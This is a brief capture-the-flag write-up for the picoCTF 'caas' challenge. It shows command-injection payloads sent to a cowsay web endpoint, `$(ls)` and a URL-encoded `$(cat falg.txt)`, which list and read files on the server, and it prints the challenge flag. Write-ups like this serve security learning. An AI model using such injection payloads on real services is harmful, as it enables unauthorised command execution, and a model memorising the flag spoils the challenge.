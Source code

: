 ## caas

[Link to challenge](https://play.picoctf.org/practice/challenge/202)

Write-up:

1. GET requests to /cowsay/{message} print the message that was given. After a little
research, I found out that you can use `GET /cowsay/$(ls)` to print directory 
contents - successful command injection, and we find `falg.txt`.

2. `GET /cowsay/%24%28cat%20falg.txt%29` gets us the flag: **picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**

